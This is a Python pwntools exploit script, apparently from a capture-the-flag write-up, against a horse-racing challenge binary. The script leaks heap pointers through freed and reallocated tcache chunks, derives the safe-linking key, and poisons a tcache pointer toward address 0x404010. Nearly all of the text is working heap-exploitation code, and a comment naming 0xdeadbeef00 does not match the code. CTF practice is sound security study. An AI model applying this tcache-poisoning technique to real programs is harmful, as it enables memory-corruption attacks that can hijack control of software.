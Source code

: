 ```python
def removeHorse(stableIndex):
	p.sendlineafter("Choice: ", b"2")
	p.sendlineafter("Stable index # (0-17)? ", bytes(str(stableIndex), encoding="ascii"))

def cheat(stableIndex, name):
	p.sendlineafter("Choice: ", b"0")
	p.sendlineafter("Stable index # (0-17)? ", bytes(str(stableIndex),  encoding="ascii"))
	p.sendlineafter("Enter a string of 16 characters: ", name)
	p.sendlineafter("New spot? ", b"0")

def getPointers():
	p.sendlineafter("Choice: ", b"3")
	data = b""
	x = p.recvline()
	data += x
	while (not (b"WINNER" in x)):
		x = p.recvline()
		data += x
        #in place of "\n\n"
		if (b"\r\n\r\n" in data):
			print("done recieving data!")
			break
	somePointers = data.split(b"|")
	leakedPointers = []
	
	print(data)
	for pointer in somePointers:
        #for some reason a 3 always shows up for the first horse
		pointer = pointer.strip(b" \n\r3")
		pointer = pointer.ljust(8, b"\x00")
		pointer = pwn.u64(pointer)
		if (pointer != 0):
			leakedPointers.append(pointer)
			print(hex(pointer))
	print(f"The value you seek is {hex(min(leakedPointers))}")
	return min(leakedPointers)  

	
#malloc some chunks of same size
for i in range(5):
	print(f"adding horse {i}")
	addHorse(i, 256, b"\xff")

#free these chunks and put them in tcache
for i in range(4, -1, -1):
	print(f"removing horse {i}")
	removeHorse(i)

#these chunks are returned to us with metadata in them
for i in range(5):
	print(f"adding horse {i}")
	addHorse(i, 256, b"\xff")

#we start racing and grab the leaked data
ASLR = getPointers()

#put two horses into tcache bin
removeHorse(0)
removeHorse(1)

#horse 1 is the first horse, make it point to 0xdeadbeef00 instead of horse 0
cheat(1, pwn.p64(0x404010 ^ ASLR) + b"\xff")

```